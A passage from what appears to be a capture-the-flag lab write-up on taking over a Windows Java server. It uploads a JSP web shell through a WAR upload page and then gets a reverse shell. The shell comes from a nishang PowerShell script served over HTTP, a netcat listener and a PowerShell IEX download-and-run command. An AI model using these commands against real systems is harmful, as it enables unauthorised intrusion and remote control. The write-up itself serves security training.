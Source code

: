 upload the file, go to server:8080/cmd/cmd.jsp

and you should see this

<img src="/assets/img/jspshell.png" alt="drawing" width="750"/>

whoami shows you have code execution as system, nice.
this machine is 64 bit according to page that allows war file uploads

<img src="/assets/img/osinfo.png" alt="drawing" width="750"/>


so you have to run 64 bit powershell, googling 64 bit powershell path show this
64 bit version: C:\Windows\System32\WindowsPowerShell\v1.0\
get nishang if you dont already have it > git clone https://github.com/samratashok/nishang
use the following shell found in the nishand Shells Dir
Invoke-PowerShellTcp.ps1
edit the script to run the following function along with what port your going to be listening with netcat

<img src="/assets/img/reverse.png" alt="drawing" width="750"/>

Serve the script up with a python http server (i renamed the PS script to shell)
{% highlight python %}
python3 -m http.server 80
{% endhighlight %}
set up a netcat listener based on the port you specifed in the powershells script
{% highlight python %}
nc -lvnp 9000
{% endhighlight %}

run the following command on the java page
{% highlight cmd %}
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32:80/Shell.ps1')
{% endhighlight %}

It runs 64 bit powershell and runs that one line commmand that reads a powershell script, imports the modules and runs the function specified.

<img src="/assets/img/cmdran.png" alt="drawing" width="750"/>

You should see that after the command is run also, a GET request on your python webserver. And Last a shell on your netcat listener.

<img src="/assets/img/rootshell.png" alt="drawing" width="750"/>

<img src="/assets/img/rooted.png" alt="drawing" width="750"/>

And thats it!
